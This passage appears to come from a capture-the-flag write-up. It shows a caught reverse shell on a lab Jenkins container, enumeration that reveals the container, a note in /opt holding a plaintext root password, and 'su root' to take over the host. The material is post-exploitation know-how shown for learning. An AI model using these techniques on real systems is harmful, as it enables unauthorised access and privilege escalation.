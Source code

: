 ```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.86.6] 57220
sh: 0: can't access tty; job control turned off
$ whoami
jenkins
$ hostname
jenkins
```

<br>

## Another Shell

I upgrade my shell to an interactive one like we did earlier on the first shell.

I look around the filesystem and quickly realize this isn't a standard setup. There are no users in the **/home** directory and the root of the file system contains a file called **.dockerenv** so it looks like we're inside of a container. Running this also confirms that:

`cat /proc/self/cgroup`

```
12:blkio:/docker/7b979a7af7785217d1c5a58e7296fb7aaed912c61181af6d8467c062151e7fb2
11:freezer:/docker/7b979a7af7785217d1c5a58e7296fb7aaed912c61181af6d8467c062151e7fb2
```

As with before I look around the system and again find something in the **/opt** directory:

```
jenkins@jenkins:/opt$ cd /opt
jenkins@jenkins:/opt$ ls -al
total 12
drwxr-xr-x 1 root root 4096 Aug  3  2020 .
drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
jenkins@jenkins:/opt$ cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

Well that certain looks promising!

<br>

## Root

Still logged in to the **aubreanna** account from when I set up the ssh tunnel earlier I run a `su root`:

```
aubreanna@internal:~$ su root
Password: 
root@internal:/home/aubreanna# whoami
root
```
